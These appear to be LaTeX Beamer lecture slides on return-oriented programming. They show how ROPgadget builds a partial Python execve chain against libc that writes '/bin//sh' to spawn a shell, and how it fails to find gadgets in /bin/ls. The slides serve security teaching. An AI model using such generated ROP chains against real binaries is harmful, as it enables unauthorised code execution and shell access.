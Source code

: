 
\begin{frame}{common, reusable ROP sequences}
    \begin{itemize}
        \item most common idea: run a shell (command prompt)
            \begin{itemize}
            \item same thing `shellcode is named after'
            \item \texttt{ROPchain --binary example --ropchain} tries to do this
            \end{itemize}
        \item another possibilities: make memory executable + jump
            \begin{itemize}
            \item make `normal' shellcode work
            \end{itemize}
        \item probably more ideas
        \vspace{.5cm}
        \item if finding one of these in popular library\ldots
        \item can reuse across a lot of applications
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ropchainex1]{ROPgadget --ropchain (works)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 \
             --offset 0x10000000 --ropchain
...
        #!/usr/bin/env python
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = b''
        p += pack('<Q', 0x00000000101056fd) # pop rdx ; pop rcx ; pop rbx ; ret
        p += pack('<Q', 0x00000000101eb1a0) # @ .data
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x000000001004a550) # pop rax ; ret
        p += b'/bin//sh'
        p += pack('<Q', 0x00000000100374b0) # mov qword ptr [rdx], rax ; ret
...
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=ropchainex]{ROPgadget --ropchain (does not work?)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /bin/ls --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x7694 mov byte ptr [rax], 0xa ; pop rbx ; pop rbp ; pop r12 ; ret
        [-] Can't find the 'pop rax' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
...
\end{lstlisting}
\end{frame}
